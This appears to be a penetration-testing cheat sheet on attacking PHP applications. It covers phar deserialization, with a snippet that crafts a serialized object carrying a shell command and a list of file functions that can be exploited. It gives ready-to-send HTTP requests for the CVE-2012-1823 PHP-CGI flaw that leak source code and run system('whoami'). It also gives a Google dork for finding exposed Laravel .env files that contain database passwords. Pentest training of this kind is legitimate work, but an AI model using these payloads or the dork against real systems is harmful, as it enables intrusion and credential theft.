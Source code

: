 PHP
===


## Deserialization

### Phar deserialization
The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)



## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```
